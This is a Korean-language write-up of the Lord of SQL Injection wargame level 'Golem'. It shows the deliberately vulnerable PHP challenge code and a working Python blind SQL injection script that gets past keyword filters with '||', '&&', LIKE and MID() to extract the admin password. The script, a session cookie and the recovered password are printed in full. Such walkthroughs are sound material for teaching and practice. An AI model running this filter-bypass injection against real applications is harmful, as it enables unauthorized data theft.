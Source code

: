 # Lord of SQL Injection No.11 Golem

`or`, `and`, `substr()`, `=` 을 사용하지 않고 Blind SQL Injection을 하도록 유도한 문제이다.

## 소스 코드

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");
```

`preg_match`에서 `or`, `and`, `substr()`을 필터링한 후 `HeHe`를 출력하며 문제 풀이에 실패하게 된다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
```

DB에 있는 `pw` 값과 `$_GET` 방식으로 입력받은 `pw` 값이 일치하면 문제 풀이에 성공한다.

## Solution

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
    add_url = "' || length(pw) like {} -- ;".format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
        add_url = "' || id like 'admin' && MID(pw,1,{}) like '{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)


        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        request = urllib.request.urlopen(re)

        if str(request.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break
print("Finished Searching.")
print("Password : " + result)
```

Blind SQL Injection을 하기 위해 사용한 Python 코드는 형태가 거의 비슷하기 때문에 이전에 사용했던 코드에서 조금만 수정하면 손쉽게 사용 가능하다.

첫 `for`문에서 `length(pw) like {}` 구문으로 `pw`의 길이를 찾는다. -> pwlen = 8
`like`는 `=` 연산자가 `preg_match` 함수에서 필터링이 되기 떄문에 우회 용도로 사용된다.

#### like

* [SQL LIKE 구문](http://makand.tistory.com/entry/SQL-LIKE-%EA%B5%AC%EB%AC%B8)

두번째 `for`문에서는 `or`, `and` 연산을 우회하기 위해 `||`와 `&&`를 사용하였다.
`&&`는 URL에 직접 대입하면 안되지만, `quote(add_url)`가 실행되면 `URL Encoding`을 수행하기 때문에 서버 상에서는 `%26%26` 상태로 삽입되었다고 볼 수 있다.

모든 `for`문이 끝나면 `pw`값은 `88e3137f` 가 나오게 된다.

```
http://los.eagle-jump.org/golem_***.php?pw=88e3137f
```

URL에 직접 `pw`를 대입하면 DB의 `pw` 값과 일치하게 되어 문제 풀이에 성공하게 된다.